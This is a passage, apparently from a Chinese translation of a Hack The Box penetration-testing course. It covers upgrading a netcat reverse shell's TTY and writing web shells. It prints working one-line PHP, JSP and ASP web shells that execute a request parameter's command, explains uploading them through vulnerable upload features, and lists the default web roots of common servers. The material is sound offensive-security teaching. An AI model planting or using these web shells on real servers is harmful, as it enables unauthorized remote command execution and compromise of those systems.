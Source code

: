 升级TTY

```Plaintext
jw0610a@htb[/htb]$ stty size

67 318
```

第一个命令显示了`TERM`变量，第二个命令显示了`行数`和`列数`的值。现在，我们拥有了我们的变量，我们可以回到我们的`netcat` shell，并使用以下命令来修复它们：

升级TTY

```Plaintext
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

完成这些操作后，我们应该拥有一个使用终端的所有功能的`netcat` shell，就像SSH连接一样。

## Web shell

我们的最后一种shell类型是`Web shell`。`Web shell`通常是一个网络脚本，例如`PHP`或`ASPX`，它通过HTTP请求参数（如`GET`或`POST`请求参数）接受我们的命令，执行该命令，并将输出打印在网页上。

#### 编写Web shell

首先，我们需要编写我们的Web shell，它将通过`GET`请求接受我们的命令，并执行该命令并将其输出打印出来。Web shell脚本通常是一行代码非常简短，可以轻松记忆。以下是一些常见的常

见Web语言的短网页shell脚本：

代码：php

```PHP
<?php system($_REQUEST["cmd"]); ?>
```

代码：jsp

```Java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

代码：asp

```JavaScript
<% eval request("cmd") %>
```

---

#### 上传Web shell

一旦我们有了我们的Web shell，我们需要将我们的Web shell脚本放入远程主机的Web目录（Web根目录）中，以便通过Web浏览器执行该脚本。这可以通过漏洞上传功能来实现，这将允许我们将其中一个shell写入文件中，例如`shell.php`并将其上传，然后访问我们上传的文件以执行命令。

但是，如果我们只能通过利用进行远程命令执行，我们可以将我们的shell直接写入Web根目录以进行访问。因此，第一步是确定Web根目录的位置。以下是常见Web服务器的默认Web根目录：

|   |   |
|---|---|
|Web服务器|默认Web根目录|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
